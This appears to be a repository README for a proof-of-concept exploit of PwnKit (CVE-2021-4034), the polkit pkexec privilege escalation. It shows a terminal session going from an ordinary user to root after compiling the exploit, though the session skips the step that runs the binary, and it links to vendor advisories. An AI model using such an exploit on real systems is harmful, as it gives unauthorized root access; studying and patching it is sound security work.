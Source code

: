 # CVE-2021-4034 
PoC for PwnKit: A local privilege escalation vulnerability in polkit's pkexec (CVE-2021-4034)

# PoC

Note: The following has been verified on Kali Rolling 2020.4, Debian 10 & CentOS 7. 

```
mj@kali:~$ id
mj@kali:~$ uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev)
mj@kali:~$ gcc CVE-2021-4034.c -o CVE-2021-4034
mj@kali:~$ uid=0(root) gid=0(root) groups=0(root)
```

### Reference Links:
https://access.redhat.com/security/vulnerabilities/RHSB-2022-001
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

